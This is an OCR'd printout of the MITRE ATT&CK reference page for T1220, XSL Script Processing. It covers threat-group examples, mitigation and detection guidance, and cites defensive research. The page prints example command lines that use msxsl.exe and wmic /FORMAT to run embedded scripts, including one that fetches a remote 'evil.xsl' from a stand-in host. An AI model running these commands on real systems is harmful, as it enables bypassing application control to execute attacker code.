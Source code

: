 3/22/24, 3:46 PM XSL Script Processing, Technique T1220 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1220/ 1/4Thank you to Tidal Cyber and SOC Prime for becoming ATT&CK's ﬁrst Benefactors. To join the cohort, or learn more about this program visit our
Benefactors page.3/22/24, 3:46 PM XSL Script Processing, Technique T1220 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1220/ 2/4Home>Techniques>Enterprise>XSL Script Processing3/22/24, 3:46 PM XSL Script Processing, Technique T1220 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1220/ 3/4XSL Script Processing
Adversaries may bypass application control and obscure execution of code by embedding scripts inside XSL ﬁles. Extensible Stylesheet
Language (XSL) ﬁles are commonly used to describe the processing and rendering of data within XML ﬁles. To support complex operations,
the XSL standard includes support for embedded scripting in various languages. 
Adversaries may abuse this functionality to execute arbitrary ﬁles while potentially bypassing application control. Similar to Trusted
Developer Utilities Proxy Execution, the Microsoft common line transformation utility binary (msxsl.exe) can be installed and used to
execute malicious JavaScript embedded within local or remote (URL referenced) XSL ﬁles. Since msxsl.exe is not installed by default, an
adversary will likely need to package it with dropped ﬁles. Msxsl.exe takes two main arguments, an XML source ﬁle and an XSL
stylesheet. Since the XSL ﬁle is valid XML, the adversary may call the same XSL ﬁle twice. When using msxsl.exe adversaries may also give
the XML/XSL ﬁles an arbitrary ﬁle extension.
Command-line examples:
msxsl.exe customers[.]xml script[.]xsl
msxsl.exe script[.]xsl script[.]xsl
msxsl.exe script[.]jpeg script[.]jpeg
Another variation of this technique, dubbed "Squiblytwo", involves using Windows Management Instrumentation to invoke JScript or
VBScript within an XSL ﬁle. This technique can also execute local/remote scripts and, similar to its Regsvr32/ "Squiblydoo" counterpart,
leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in Windows Management Instrumentation provided they utilize
the /FORMAT switch.
Command-line examples:
Local File: wmic process list /FORMAT:evil[.]xsl
Remote File: wmic os get /FORMAT:"https[:]//example[.]com/evil[.]xsl"[1]
[2]
[3]
[4]
[5]
[3][5]
[6]
[5]
[5][6]
Version PermalinkID: T1220
Sub-techniques:  No sub-techniques
 
Tactic: Defense Evasion
 
Platforms: Windows
 
System Requirements: Microsoft Core XML Services (MSXML) or access to wmic.exe
 
Defense Bypassed: Anti-virus, Application Control, Digital Certiﬁcate Validation
Contributors: Avneet Singh; Casey Smith; Praetorian
Version: 1.2
Created: 17 October 2018
Last Modiﬁed: 05 May 20223/22/24, 3:46 PM XSL Script Processing, Technique T1220 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1220/ 4/4Procedure Examples
ID Name Description
S0373 Astaroth Astaroth executes embedded JScript or VBScript in an XSL stylesheet located on a remote domain. 
G0080 Cobalt Group Cobalt Group used msxsl.exe to bypass AppLocker and to invoke Jscript code from an XSL ﬁle.
G0126 Higaisa Higaisa used an XSL ﬁle to run VBScript code.
C0022 Operation Dream
JobDuring Operation Dream Job, Lazarus Group used a remote XSL script to download a Base64-encoded
DLL custom downloader.
Mitigations
ID Mitigation Description
M1038 Execution Prevention If msxsl.exe is unnecessary, then block its execution to prevent abuse by adversaries.
Detection
ID Data SourceData ComponentDetects
DS0011 Module Module Load Monitor DLL/PE ﬁle events, speciﬁcally creation of these binary ﬁles as well as the loading of
DLLs into processes. Look for DLLs that are not recognized or not normally loaded into a
process.
DS0009 Process Process
CreationUse process monitoring to monitor the execution and arguments of msxsl.exe and wmic.exe. 
 Command arguments used before and after the script invocation may also be useful in
determining the origin and purpose of the payload being loaded. The presence of msxsl.exe or
other utilities that enable proxy execution that are typically used for development, debugging,
and reverse engineering on a system that is not used for these purposes may be suspicious.
References[7]
[8]
[9]
[10]
[6]
[11]
1. Wenzel, M. et al. (2017, March 30). XSLT Stylesheet Scripting
Using . Retrieved July 3, 2018.
2. Microsoft. (n.d.). Command Line Transformation Utility
(msxsl.exe). Retrieved July 3, 2018.
3. netbiosX. (2017, July 6). AppLocker Bypass – MSXSL.
Retrieved July 3, 2018.
4. Admin. (2018, March 2). Spear-phishing campaign leveraging
on MSXSL. Retrieved July 3, 2018.
5. Singh, A. (2019, March 14). MSXSL.EXE and WMIC.EXE — A
Way to Proxy Code Execution. Retrieved August 2, 2019.
 . LOLBAS. (n.d.). Wmic.exe. Retrieved July 31, 2019.7. Salem, E. (2019, February 13). ASTAROTH MALWARE USES
LEGITIMATE OS AND ANTIVIRUS PROCESSES TO STEAL
PASSWORDS AND PERSONAL DATA. Retrieved April 17, 2019.
 . Svajcer, V. (2018, July 31). Multiple Cobalt Personality
Disorder. Retrieved September 5, 2018.
9. PT ESC Threat Intelligence. (2020, June 4). COVID-19 and New
Year greetings: an investigation into the tools and methods
used by the Higaisa group. Retrieved March 2, 2021.
10. Breitenbacher, D and Osis, K. (2020, June 17). OPERATION
IN(TER)CEPTION: Targeted Attacks Against European
Aerospace and Military Companies. Retrieved December 20,
2021.
11. Desimone, J. (2018, April 18). Status Update. Retrieved July 3,
2018.